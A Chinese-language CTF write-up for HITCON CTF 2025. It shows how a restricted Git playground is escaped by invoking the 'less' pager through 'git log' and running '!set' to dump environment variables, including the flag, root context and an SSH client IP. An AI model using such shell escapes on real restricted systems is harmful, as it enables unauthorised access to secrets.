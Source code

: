 ```yaml
---
title: HITCON CTF 2025
published: 2025-08-25
updated: 2025-08-25
description: "HITCON CTF 2025 writeup"
image: "/assets/HitconCTF2025/logo.png"
tags: ["CTF Writeup"]
category: "CTF Writeup"
draft: true
---
```


是 HITCON CTF！太酷啦~  
這是戰隊的第二場比賽，這次總共四個人一起參賽，很期待

---

![score](/assets/HitconCTF2025/score.png)

67 / 1289

---

# HITCON CTF 2025

## Welcome

我以為 HITCON 2025 的時候 orange 說不讓 welcome 太無聊是在開玩笑，沒想到是真的 www  
這題只要按下 `Submit` 就可以了，但問題鼠標移到 `Submit` 上方的時候 `Submit` 會到處亂跑 w  
不知道其他人怎麼解的，但我鼠標跟一下就按到了 xd  
沒截到圖 QQ

## Misc

### git-playground

這個程式是一個模擬的 Git playground，使用者可以在 `/work` 目錄下執行部分 Git 指令和基本 Unix 指令  
程式會初始化 Git repository，設置環境變數，並提供一個命令行介面

這題的`run.sh`裡面提到`FLAG is in the environment variable`  
然後環境有 `less` 這種 pager，可以在 `git log` 或 `git show` 的畫面中進入 `less`，這一題不能用 `git show`，會因為黑名單顯示 `Dont't try to hack me`  
`less` 支援 `!command`，允許在 less 裡執行指令，進而讀取環境變數

```bash
Initialized empty Git repository in /work/.git/
=====================================
Hello! Welcome to the Git playground!
=====================================
Enter your command: touch /work/a
Enter your command: git add /work/a
Enter your command: git commit -m a
[main (root-commit) 067483d] a
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 a
Enter your command: git show
Dont't try to hack me
```

改成用 `git log` ， `git log` 需要 pager 的指令，會呼叫 `less` 來瀏覽輸出

```bash
Enter your command: git log
commit 067483d857fe8b0710cb54993bf66503d313c46d (HEAD -> main)
Author: hitconctf <hitconctf@hitcon.com>
Date:   Sat Aug 23 16:07:27 2025 +0000

    a
```

`less` 支援輸入 `!command` 來執行外部指令  
可以透過 `!set` 來顯示 shell 當前環境變數

```bash
!set
COLUMNS='120'
FLAG='hitcon{Bu5yb0X_34511y_cR4sH_Wh3N_bu117_w17h_C14Ng?}'
FUNCNAME=''
GIT_EXEC_PATH='//libexec/git-core'
GIT_PREFIX=''
HOME='/root'
HOSTNAME='0ac8a0df4abe'
IFS='
'
LESS='-Rd'
LINENO=''
LOGNAME='root'
LV='-c'
MAIL='/var/spool/mail/root'
MOTD_SHOWN='pam'
OPTIND='1'
PATH='//libexec/git-core:/bin'
PPID='38266'
PS1='\w \$ '
PS2='> '
PS4='+ '
PWD='/work'
SHELL='/bin/sh'
SHLVL='3'
SSH_CLIENT='36.224.53.87 54338 22'
SSH_CONNECTION='36.224.53.87 54338 10.10.0.18 22'
SSH_TTY='/dev/pts/20'
TERM='xterm-256color'
USER='root'
!done  (press RETURN)
```

就拿到 flag 了

![](/assets/HitconCTF2025/IMG-20250824001655804.png)

![](/assets/HitconCTF2025/IMG-20250824001531614.png)

```txt
hitcon{Bu5yb0X_34511y_cR4sH_Wh3N_bu117_w17h_C14Ng?}
```

---

好難啊 (╥﹏╥)  
剩下的題目翻了都沒什麼想法，打比賽的時候還有點不舒服，有一半的比賽時間都在睡覺 www  
再多練一下 QQ  
下個 CTF 再見~
